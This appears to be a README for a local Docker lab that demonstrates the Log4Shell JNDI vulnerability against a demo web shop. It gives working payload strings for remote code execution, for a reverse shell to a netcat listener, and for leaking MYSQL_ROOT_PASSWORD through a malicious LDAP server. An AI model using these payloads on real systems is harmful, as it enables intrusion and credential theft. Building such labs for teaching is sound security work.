 ## Starting up the exploit

Run, in this order, the following commands : 

```bash
docker compose up -d database       # wait for the database to spinup
docker compose up application       # before launching application.
docker compose up snoopy-http-server
docker compose up snoopy-ldap-server
```

Connect to `http://localhost:8080` to access the biscuits shop frontend. 

Do the RCE via `${jndi:ldap://snoopy-ldap-server:1389/a}` 
Connect database container from shell via `mysql -h 127.0.0.1 -P 3306 -u root -p biscuits`
Query the spring LDAP authentication server via `ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"`
Query the malicious LDAP server via `ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"`
Access the malicious http server at `http://localhost:8000`

### Remote Shell Exploit

Startup a netcat server to listen for an incoming TCP remote shell connection `docker compose run --name snoopy-netcat-listener snoopy-netcat-listener` and inject `${jndi:ldap://snoopy-ldap-server:1389/ExploitRCE}` once pwned,
you can get .env values via, 
```
echo $MYSQL_HOST
mysql-database
echo $MYSQL_ROOT_PASSWORD 
secret
```

### Information Leakage Exploit

The CVE is still exploitable even if you disable remote code base url trust. 
You can set this property to false inside `BiscuitsApplication.java` and inject the following 
value as email : 

```
${jndi:ldap://snoopy-ldap-server:1389/${env:MYSQL_ROOT_PASSWORD}}
```

IT IS ESSENTIAL TO NOT USE DOCKER COMPOSE UP SNOOPY-NETCAT-LISTENER, see [this SO thread](https://stackoverflow.com/questions/36249744/interactive-shell-using-docker-compose).

Dependencies : 

Working install of docker and docker compose. 